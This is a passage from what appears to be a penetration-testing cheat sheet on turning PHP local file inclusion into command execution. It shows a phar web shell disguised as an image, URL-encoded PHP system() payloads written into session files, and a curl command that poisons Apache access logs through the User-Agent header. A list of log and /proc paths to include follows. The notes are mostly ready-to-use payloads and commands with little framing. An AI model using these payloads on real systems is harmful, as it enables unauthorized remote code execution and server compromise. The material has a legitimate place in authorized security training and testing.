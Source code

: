 |Payload | LFI |
| -------- | -------- |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg` | `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id` |


## Log Poisoning

### PHP Session Poisoning
>**ℹ️ Info:**
>
>Look what we can modify in the cookie, e.g: language selection, page selection.
>
>Cookies are usually saved in `/var/lib/php/sessions/sess_<cookie>` on Linux and in `C:\Windows\Temp\sess_<cookie>` on Windows.

For each time we want to execute a command we need to poison the session file again with the following:
```url
%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Then we call our cookie:
```url
/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

### Server Log Poisoning

| Logs Folder | Technology | OS |
|-------------|------------|----|
| `/var/log/apache2/access.log` | Apache | Linux |
| `/var/log/apache2/error.log` | Apache | Linux |
| `C:\xampp\apache\logs\` | Apache | Windows |
| `/var/log/nginx/` | Nginx | Linux |
| `C:\nginx\log\` | Nginx | Windows |

>**ℹ️ Info:**
>
>Check what gets saved in the logs that we can modify, e.g: User-Agent.

Poison the log using cURL:
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

After that:
`/index.php?language=/var/log/apache2/access.log&cmd=id`

Also check for:
- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`
- `/proc/self/environ`
- `/proc/self/fd/N` files (where N is a PID usually between 0-50).
